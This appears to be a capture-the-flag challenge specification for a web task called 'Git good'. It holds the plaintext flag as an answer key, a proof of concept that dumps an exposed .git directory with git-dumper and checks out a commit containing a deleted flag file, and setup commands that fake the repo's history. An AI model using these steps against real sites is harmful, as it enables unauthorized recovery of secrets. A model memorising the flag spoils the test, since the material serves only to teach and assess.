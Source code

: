| metadata | <> |
|--- | --- |
| Developer Name(s) | Dean |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Web |
| Challenge Tier | 0 |
| Challenge Type | Container|

| Player facing | <> |
|--- | --- |
|Challenge Name | Git good |
|Challenge Description | You really have to be good to git this flag. Note: A small amount of directory bruteforcing is required for this challenge (ffuf is your friend). http://web-0 |
|Challenge Hint 1 | Common wordlists will find the thing [this might be useful](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) |
|Challenge Hint 2 | You better git dumping that thing you found [this might be useful](https://github.com/arthaud/git-dumper)|

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{isnt_git_great} |
|Challenge Vuln| Templated web app with `.git` dir present in `/env/.git`. A basic blacklist has been set to require challenge players to configure their chosen dir-bustering tool with the requisite user-agent option. Within the git repo is a flag that has been added and removed, and has been followed by a bunch of other commits just to fill out the log. |
|Docker Usage Idle | 2% CPU / 15MB RAM |
|Docker usage Expected Peak | 20% CPU / 20MB RAM |

---

Challenge PoC

1. Run `python3 git-dumper.py http://challenge.server/env/.git/ ./some_output_dir` (script located [here](https://github.com/arthaud/git-dumper))
2. `cd some_output_dir`
3. `git checkout b97c2a177567ae7d55eb12c3b65a6b74b1198d0a`
4. `cat flag.txt`

---

## Setup Info (if recreating the git repo)

### Create git repo with faked history

Do this inside `/env`

```
git init
git config user.name wactf
git config user.email wactf@capture.tf/
npx fake-git-history --startDate "2020/09/01" --endDate "2020/09/26"
echo "<FLAG CONTENT>" > flag.txt
git add flag.txt
git commit --date 2020/09/26 -m "flag create"
git rm flag.txt
git commit --date 2020/09/27 -m "flag delete"
npx fake-git-history --startDate "2020/09/27" --endDate "2020/10/15"
```
